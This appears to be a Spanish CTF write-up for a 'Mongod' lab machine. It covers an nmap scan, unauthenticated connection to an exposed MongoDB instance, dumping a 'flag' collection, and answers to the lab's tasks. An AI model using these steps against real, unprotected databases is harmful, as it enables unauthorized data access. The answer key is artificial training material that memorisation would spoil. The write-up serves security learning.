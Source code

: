 # Mongod

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **MongoDB**: Base de datos NoSQL de código abierto que almacena datos en formato JSON (BSON). Es popular por su flexibilidad y escalabilidad, pero requiere configuraciones adecuadas para prevenir vulnerabilidades como la exposición de puertos sin protección o la falta de autenticación.
  * **Databases (Bases de Datos)**: Sistemas de almacenamiento de datos organizados que permiten la gestión y recuperación eficiente de información. Las bases de datos pueden ser relacionales (SQL) o no relacionales (NoSQL), y una configuración incorrecta o sin medidas de seguridad adecuadas puede poner en riesgo la integridad y confidencialidad de los datos.
  * **Reconnaissance (Reconocimiento)**: Proceso de recolección de información sobre un objetivo para identificar posibles puntos de ataque. Esto incluye el análisis de servicios activos, puertos abiertos, sistemas operativos, y más. Es una fase clave en las pruebas de penetración.
  * **Misconfiguration (Mala Configuración)**: Error en la configuración de un sistema, red o servicio que crea vulnerabilidades de seguridad. Ejemplos incluyen configuraciones incorrectas de firewalls, permisos excesivos, o puertos abiertos innecesarios, que pueden ser explotados por atacantes.
  * **Anonymous/Guest Access (Acceso Anónimo/Acceso de Invitado)**: Acceso permitido a un sistema o recurso sin la necesidad de autenticarse. Si no se configura correctamente, este tipo de acceso puede permitir que usuarios no autorizados exploren o modifiquen datos de un sistema, aumentando el riesgo de explotación.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.163.203
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sV -T4 -vv -p- 10.129.163.203
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 154557.png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **27017** correspondiente a **MongoDB** están abiertos. A continuación, se indagará más sobre estos servicios.

Descargamos MongoDB.

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Ejecutamos dentro del directorio.

```bash
./mongo mongodb://10.129.163.203:27017
```

Estando dentro vemos la información.

```
show dbs
use sensitive_information;
show collections;
db.flag.find().pretty();
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1**

¿Cuántos puertos TCP están abiertos en la máquina?\
**Respuesta:** `2`

**Task 2**

¿Qué servicio se está ejecutando en el puerto 27017 del host remoto?\
**Respuesta:** `MongoDB 3.6.8`

**Task 3**

¿Qué tipo de base de datos es MongoDB? (Elige: SQL o NoSQL)\
**Respuesta:** `NoSQL`

**Task 4**

¿Cuál es el nombre del comando para la shell de MongoDB que se instala con el paquete `mongodb-clients`?\
**Respuesta:** `Mongosh`

**Task 5**

¿Qué comando se usa para listar todas las bases de datos presentes en el servidor de MongoDB?\
**Respuesta:** `show dbs`

**Task 6**

¿Qué comando se usa para listar las colecciones dentro de una base de datos?\
**Respuesta:** `show collections`

**Task 7**

¿Qué comando se usa para volcar el contenido de todos los documentos dentro de la colección llamada `flag` en un formato fácil de leer?\
**Respuesta:** `db.flag.find().pretty()`
